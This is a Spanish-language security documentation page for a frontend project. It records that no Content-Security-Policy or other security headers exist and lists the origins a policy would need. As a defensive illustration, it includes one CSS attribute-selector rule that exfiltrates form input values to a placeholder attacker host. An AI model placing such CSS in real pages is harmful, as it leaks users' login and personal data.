

repository: PabloArauzCaballero/cpa_plataforma_frontend · page: security/content-security-policy/index.html · generator: mkdocs

# Content Security Policy

## Estado actual: no existe

Verificado en las tres capas donde podría definirse:

| Capa | Archivo | CSP |
| --- | --- | --- |
| HTML | `index.html` | ❌ Sin `<meta http-equiv="Content-Security-Policy">` |
| nginx | `docker/nginx.conf` | ❌ Sin `add_header Content-Security-Policy` |
| Cloudflare Worker | `wrangler.jsonc` | ❌ Solo declara `assets.directory`; sin cabeceras |

Tampoco existe ninguna otra cabecera de seguridad:

| Cabecera | Estado | Qué previene |
| --- | --- | --- |
| `Content-Security-Policy` | ❌ | Inyección de scripts y estilos, exfiltración |
| `X-Frame-Options` / `frame-ancestors` | ❌ | Clickjacking |
| `Strict-Transport-Security` | ❌ | Degradación a HTTP |
| `X-Content-Type-Options: nosniff` | ❌ | Confusión de tipo MIME |
| `Referrer-Policy` | ❌ | Fuga de URL en el `Referer` |
| `Permissions-Policy` | ❌ | Acceso a cámara, micrófono, geolocalización |

## Por qué importa aquí en concreto

La aplicación carga **CSS de un tercero sin verificación de integridad** (`cdnjs.cloudflare.com`, `index.html:14`). Sin CSP no hay una segunda barrera: si ese recurso se compromete, el CSS entra sin restricciones.

CSS malicioso puede exfiltrar datos sin JavaScript, mediante selectores de atributo:

```css
input[value^="a"] { background-image: url("https://atacante/?c=a"); }
```

Sobre un formulario de login o de datos personales, eso es filtración real.

## Inventario de orígenes que la aplicación necesita

Derivado del código; es la base para construir la política.

| Directiva | Orígenes requeridos | Evidencia |
| --- | --- | --- |
| `default-src` | `'self'` | — |
| `script-src` | `'self'` | Todo el JS es del propio bundle. **No hay scripts en línea ni de terceros** |
| `style-src` | `'self'`, `https://cdnjs.cloudflare.com`, `'unsafe-inline'` | CSS Modules + CDN de FontAwesome. `'unsafe-inline'` es necesario porque React inyecta estilos en línea en algunos casos y `driver.js` los usa para posicionar el globo |
| `font-src` | `'self'`, `https://cdnjs.cloudflare.com` | FontAwesome sirve sus fuentes desde el mismo CDN |
| `img-src` | `'self'`, `data:`, `https://res.cloudinary.com` | Logo local, previsualizaciones y archivos de Cloudinary |
| `connect-src` | `'self'`, el origen de `VITE_API_BASE_URL`, `https://api.cloudinary.com` | `httpClient` y `cloudinaryUpload` |
| `frame-ancestors` | `'none'` | La aplicación nunca debe embeberse |
| `form-action` | `'self'` | No hay envíos de formulario nativos a otros orígenes |
| `base-uri` | `'self'` | — |
| `object-src` | `'none'` | Sin `<object>` ni `<embed>` |
